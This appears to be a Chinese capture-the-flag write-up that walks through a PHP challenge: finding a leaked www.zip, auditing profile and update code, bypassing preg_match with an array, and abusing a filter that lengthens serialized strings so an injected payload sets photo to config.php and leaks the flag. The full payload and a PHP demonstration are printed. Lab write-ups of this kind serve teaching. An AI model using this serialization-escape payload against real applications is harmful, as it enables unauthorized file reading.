










考察知识点：

1.数组绕过preg_match()正则表达式

2.改变序列化字符串长度导致反序列化漏洞

3.www.zip源码泄露


# 1.ctf-scan扫描发现www.zip得到网站源码


# 2.代码审计

大体看了一下发现config.php中存在flag




# 3.seay扫描代码




frofile.php可能存在文件读取漏洞可以得到config.php中的flag


# 4.我们只要能控制$peofile['photo']=config.php;即可读取到flag




# 5.查看$peofile['photo']的值来自何方


```javascript
profile.php

$username = $_SESSION['username'];
$profile=$user->show_profile($username);
```


```javascript
class.php

public function show_profile($username) {
   $username = parent::filter($username);

   $where = "username = '$username'";
   $object = parent::select($this->table, $where);
   return $object->profile;
}
```


所以明白程序逻辑为：根据用户名从数据库中查取$peofile的值


# 6.查看数据库中的$profile如何赋值

```javascript
update.php

$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
```


# 7.考虑sql注入更改数据库内容photo='config.php'

但是过滤很严格，无法sql注入

```javascript
class.php

public function filter($string) {
   $escape = array('\'', '\\\\');
   $escape = '/' . implode('|', $escape) . '/';
   $string = preg_replace($escape, '_', $string);

   $safe = array('select', 'insert', 'update', 'delete', 'where');
   $safe = '/' . implode('|', $safe) . '/i';
   return preg_replace($safe, 'hacker', $string);
}
```


# 8.继续考虑其他方法

发现updatae.php中有一个serialize





frofile.php中有一个unserlize




此时想到：.改变序列化字符串长度导致反序列化漏洞

只要能随意控制nickname的值，我们就可以利用该漏洞控制photo的值


改变序列化字符串长度导致反序列化漏洞简介：

当反序列化时，会自动忽略能正常序列化字符串后面的字符串



可以看到ser和ser3的值反序列化后的值是一样的。


# 9.改变序列化字符串长度导致反序列化漏洞在该网站的利用

9.1 自定义nickname的值，虽然nickname有限制但是可以采用数组绕过




9.2 发现filter能够将白名单中的值替换为hacker




# 10. 所以构造payload:

```javascript
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
where";}s:5:"photo";s:10:"config.php
```





访问profile.php即可得到flagconfig.php的base64编码




# 11.关于payload的解释


```javascript
$nickname='wherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewhere";}s:5:"photo";s:10:"config.php';

$ser=serialize($nickname);

echo "ser: ".$ser;
echo "\n";

$ser1=str_replace("where","hacker",$ser);
echo "ser1: ".$ser1;
echo "\n";
var_dump(unserialize($ser1));


输出：
ser: s:186:"wherewherewherewherewherewherewherewherewherewherewherewherewher
ewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewhere";}s:5:"photo";s:10:"config.php";

ser1: s:186:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhacke
rhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacke
r";}s:5:"photo";s:10:"config.php";

H:\WWW\www\exp.php:28:
string(186) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacker"

可见有34个where替换为hacker序列化数据增加了34个字节的长度刚好把,
;}s:5:"photo";s:10:"config.php" 挤出了nickname的序列化数据而,
;}s:5:"photo";s:10:"config.php" 成为了下一个数据photo的序列化数据,
当反序列化时nickname=hacker....
而photo=config.php
此时读取到了flag

```


